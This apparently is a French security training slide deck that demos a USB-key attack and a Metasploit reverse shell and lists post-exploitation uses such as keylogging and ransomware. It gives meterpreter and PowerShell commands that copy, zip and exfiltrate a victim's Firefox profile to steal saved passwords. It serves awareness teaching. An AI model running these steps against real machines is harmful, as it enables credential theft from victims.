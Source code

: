
# Demo

---?video=https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4

Note:
- Conclusion: ne ramassez pas les clefs usb que vous trouvez dans la rue

---?video=https://yourlabs.io/oss/security/raw/master/assets/msf-reverseshell.mp4
---

## Usages

- Vol de mots de passe firefox |
- Keylogger |
- Screen capture |
- Downloader et uploader des fichiers |
- Implementation d'un ransome ware |
- Reconnaissance et mouvement transversaux dans le reseau |
- ... |

---

## Vol de mots de passe Firefox

```
meterpreter > shell
> powershell
> cd /users/<user> #(utilisez whoami pr le savoir)
> copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
> Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
> exit
> exit
meterpreter > Download /windows/temp/mad.default-release.zip /tmp
```

@[1](Lancer cmd)
@[2](Lancer powershell)
@[3-4](Copie des fichiers .default-release de firefox)
@[5](Compression dans fichiers dans une archive zip)
@[6-7](On exit 2 fois pour revenir au prompt `meterpreter >`)
@[8](Exifltration de l'archive zip)

Note:
Dans notre sessions meterpreter on zip les fichiers de profile firefox:

---

# Extraction

